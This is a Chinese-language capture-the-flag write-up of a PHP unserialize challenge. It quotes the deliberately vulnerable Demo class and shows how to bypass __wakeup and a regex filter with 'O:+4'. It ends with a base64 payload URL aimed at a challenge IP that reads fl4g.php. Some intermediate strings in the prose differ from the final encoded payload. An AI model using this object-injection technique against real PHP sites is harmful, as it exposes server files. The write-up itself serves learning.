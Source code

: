 # Web_php_unserialize

## 解题思路：

- 首先，这道题一看题目就知道，跟昨天做过的那道反序列化(unserialize3)是一个类型，点进去看看。

- 界面上已经写好了代码：

    ```php
        <?php 
        class Demo { 
            private $file = 'index.php';
            public function __construct($file) { 
                $this->file = $file; 
            }
            function __destruct() { 
                echo @highlight_file($this->file, true); 
            }
            function __wakeup() { 
                if ($this->file != 'index.php') { 
                    //the secret is in the fl4g.php
                    $this->file = 'index.php'; 
                } 
            } 
        }
        if (isset($_GET['var'])) { 
            $var = base64_decode($_GET['var']); 
            if (preg_match('/[oc]:\d+:/i', $var)) { 
                die('stop hacking!'); 
            } else {
                @unserialize($var); 
            } 
        } else { 
            highlight_file("index.php"); 
        } 
        ?>
    ```

    读一下代码：首先定义一个Demo类，里面有一个private成员flag，以及三个方法。

    立刻想到：如果定义一个序列化的对象字符串，它应该是这样的：

    - `O:4:"Demo":1:{S:10:"Demofile";S:9:"index.php"}`

    - 需要注意 `Demofile` 的长度是 **10** ！原因参看[unserialize3](https://github.com/EndermaNNNN/zhaoenze/blob/master/WriteUps/unserialize3.md)中的注意事项。

    接着读代码，`__wakeup()` 又出现了，里面的意思是强制转到`index.php`，那我们肯定又要绕过它，方法还是“撑爆”数组长度。同时注释里告诉我们，flag在 `fl4g.php` 里，于是重新构造字符串：

    - `O:4:"Demo":1:{S:10:"Demofile";S:8:"fl4g.php"}`

    再往下看，最后一段代码告诉了我们，读取值的方法是`get`,而且这个被读取的 `var` 还必须是 **被Base64编码之后传上去** 才行。

    Base64解码之后又接了一个正则筛选，意思是：

    - 对 `（[字符O或C]:[一个或多个数字]）` 格式进行匹配，且大小写不敏感。

    我们发现构造的序列化字符串里有 `[O:4]` ,怎么才能让这个格式不匹配呢？

    - 一开始我想的是在 4 前面加空格，但是这样网站直接不响应

    - 之后又尝试了 **把所有数字转码成url编码** ，后来想了想，这么做完全是徒劳：人家反正要解析，你转码也没用啊

    - 最后实在没办法，看了别人的做法，发现php里面 `4` 和 `+4` 其实是一个东西，虽然 `+4` 只是多了一个正号，但这恰好就是我们想要的东西。

    根据正则的要求修改字符串：

    - `O:+4:"Demo":1:{S:10:"Demofile";S:8:"fl4g.php"}`

    最后就是转码了，我最开始使用网页提供的在线转码工具，结果用这个去请求根本出不来结果，题目网站一直无响应，我确认了很多遍自己的字符串构造，最后实在没办法，去网上看了，发现大家都有这个问题：

    - 千万不要用在线工具转码，字符串里面有一些空字符根本没法被编码！一定要用php脚本自己编码运行一遍！

    最后只能嫖别人写好的编码，拿下了这道题，这也给我敲响了警钟：一定要安装一个本地php调试工具。

    最后的请求url：

    `111.198.29.45:59499/?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`